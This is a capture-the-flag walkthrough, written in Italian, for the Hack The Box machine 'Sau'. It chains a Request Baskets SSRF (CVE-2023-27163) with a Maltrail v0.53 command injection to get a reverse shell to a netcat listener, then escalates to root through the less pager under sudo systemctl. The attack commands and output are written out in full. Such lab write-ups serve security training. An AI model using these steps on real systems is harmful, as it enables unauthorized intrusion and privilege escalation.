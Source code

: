 **TARGET:10.10.11.224

# INFORMATION GATHERING

Per prima cosa lanciamo un veloce scan con [Nmap](Note/Tool/Nmap.md)

```shell-session
┌──(kali㉿kali)-[~/htb/sau]
└─$ nmap -sT -sV -Pn 10.10.11.224
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-01 23:07 CET
Nmap scan report for 10.10.11.224
Host is up (0.044s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp    filtered http
55555/tcp open     unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94SVN%I=7%D=12/1%Time=656A5918%P=x86_64-pc-linux-gnu%
SF:r(GetRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/htm
SF:l;\x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Fri,\x2001\x20Dec\
SF:x202023\x2022:07:34\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\
SF:"/web\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection
SF::\x20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x
SF:20200\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Fri,\x2001\x20Dec\
SF:x202023\x2022:07:35\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequ
SF:est,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/pla
SF:in;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Reque
SF:st")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20
SF:text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\
SF:x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r
SF:\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x204
SF:00\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r
SF:\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,6
SF:7,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x
SF:20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%
SF:r(Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\
SF:r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Opti
SF:ons:\x20nosniff\r\nDate:\x20Fri,\x2001\x20Dec\x202023\x2022:08:01\x20GM
SF:T\r\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20
SF:name\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}
SF:\$\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Ty
SF:pe:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\
SF:x20Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Requ
SF:est\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20
SF:close\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 92.70 seconds
```

Uno scan competo su tutte le porte non ci da nessuna nuova informazione.

Ricapitolando abbiamo 2 porte aperte

- 22 ssh 
- 55555 unknown

la porta 80 e la 8338 risultano filtrate

# ENUMERATION

Visitiamo `10.10.11.224:55555`

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/sau.png)
Possiamo esplorare un po' lo strumento e capire che si tratta di un tipico contenitore di richieste, in cui crea un nuovo carrello e ti fornisce un token che puoi utilizzare per accedere al carrello in un secondo momento. Possiamo inoltre inviare richieste al nostro carrello e vedere anche i dati che arrivano, ma da esso non può essere generato alcun attacco particolare.
Non esiste nemmeno un pannello di amministrazione a cui possiamo provare ad accedere. Quindi, la prossima cosa che possiamo cercare è una vulnerabilità divulgata pubblicamente in questa applicazione che possiamo sfruttare.

Con una rapida ricerca su Google per “Request Basket exploits”, possiamo trovare [questo PoC per CVE-2023–27163](https://github.com/entr0pie/CVE-2023-27163) che sfrutta una vulnerabilità SSRF in Request Basket.

# GAINING AN INITIAL FOOTHOLD 

L'exploit è piuttosto semplice da eseguire, tutto ciò di cui abbiamo bisogno è l'IP di destinazione e il numero di porta insieme all'indirizzo a cui vogliamo reindirizzare la nostra richiesta internamente sul server attraverso la vulnerabilità SSRF.

```shell-session
┌──(kali㉿kali)-[~/htb/sau/CVE-2023-27163]
└─$ ./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "cadgqa" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/cadgqa now makes the server request to http://127.0.0.1:80.
> Authorization: Ye9AiNbyPIQhFo1JFvXSKQpi5lqnG5Vic9V7aYkR9Mq8

```

Ora possiamo andare al carello appena creato

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/sau1.png)
Sembra che qualche altra applicazione chiamata Maltrail sia in esecuzione.
Sappiamo anche che la sua versione v0.53 è in esecuzione sul server.

Possiamo iniziare a cercare eventuali exploit associati che potrebbero aiutarci a ottenere una shell inversa.
Ancora una volta con una rapida ricerca su Google possiamo trovare un [exploit per Maltrail v0.53 Unuthenticated OS Command Inject](https://github.com/spookier/Maltrail-v0.53-Exploit)

Anche in questo caso l'exploit e relativamente semplice 
Il passo successivo è avviare nc

```shell-session
┌──(kali㉿kali)-[~/htb/sau]
└─$ nc -nvlp 1234
listening on [any] 1234 ...
```

ed eseguire l'exploit Maltrail contro il carrello creato in precedneza.

```shell-session
┌──(kali㉿kali)-[~/htb/sau/Maltrail-v0.53-Exploit]
└─$ python3 exploit.py 10.10.14.48 1234  http://10.10.11.224:55555/cadgqa
Running exploit on http://10.10.11.224:55555/cadgqa/login
```

abbiamo cosi la nostra shell 

```shell-session
┌──(kali㉿kali)-[~/htb/sau]
└─$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.11.224] 60466
$ id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
```

facciamo un update della shell

```shell-session
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
puma@sau:/opt/maltrail$ ^Z
zsh: suspended  nc -nvlp 1234

┌──(kali㉿kali)-[~/htb/sau]
└─$ stty raw -echo; fg
[1]  + continued  nc -nvlp 1234

puma@sau:/opt/maltrail$ export SHELL=bash
puma@sau:/opt/maltrail$ export TERM=xterm-256color
puma@sau:/opt/maltrail$
```

e ci prendiamo la nostra user_flag

```shell-session
puma@sau:/opt/maltrail$ cat ~/user.txt
7da89e2a309434fcb286cfadac62f664
```

# PRIVESC

Come sempre una delle prime cosa da fare è vedere cosa possiamo eseguire con i privilegi di root

```shell-session
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
puma@sau:/opt/maltrail$
```

Sembra che possiamo controllare lo stato di trail.service. Di solito, l'output di questi comandi viene elaborato tramite less e possiamo prendere riferimento da [GTFOBins]() per `less` e quindi accedere a root.

```shell-session
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Fri 2023-12-01 21:16:37 UTC; 1h 20min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 893 (python3)
      Tasks: 25 (limit: 4662)
     Memory: 49.8M
     CGroup: /system.slice/trail.service
             ├─ 893 /usr/bin/python3 server.py
             ├─1179 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed p>
             ├─1180 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed p>
             ├─1183 sh
             ├─1184 python3 -c import socket,os,pty;s=socket.socket(socket.AF_I>
             ├─1185 /bin/sh
             ├─1187 python3 -c import pty; pty.spawn("/bin/bash")
             ├─1188 /bin/bash
             ├─1210 sudo /usr/bin/systemctl status trail.service
             ├─1211 /usr/bin/systemctl status trail.service
             ├─1212 pager
             ├─1213 sh -c /bin/bash -c /bin/bash
             ├─1214 /bin/bash
             ├─1244 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed p>
!/bin/bash
root@sau:/opt/maltrail# id
uid=0(root) gid=0(root) groups=0(root)
```

e ci prendiamo la nostra root_flag

```shell-session
root@sau:/opt/maltrail# cat ~/root.txt
f2aceb5d6859460186c5403b1bfed871
```